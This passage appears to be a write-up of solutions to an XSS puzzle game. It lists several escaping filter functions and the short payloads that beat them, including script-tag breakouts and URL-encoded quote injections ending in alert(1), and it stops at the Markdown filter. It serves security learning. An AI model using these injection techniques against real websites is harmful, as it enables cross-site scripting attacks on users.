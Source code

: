 ### Win with:
```
\");alert(1)//
```
14 characters

## JSON
### filter:
```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

### Win with:
```
</script><script>alert(1)//
```
27 characters

## Javascript
### filter
```javascript
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```
### comments
This was very hard to figure out, mainly because the script didn't give me feedback and I had to manually crawl the iframe in developer tools after each attempt to see what the output code was.
__Note__: Switching to chrome and the iframe/console output stuff worked.

So anyways, let's note that it's a url, so let's URI encode a `"`->`%22`


### Win with:
```
%22);alert(1)//
```
15 characters


## Markdown
### filter
```javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

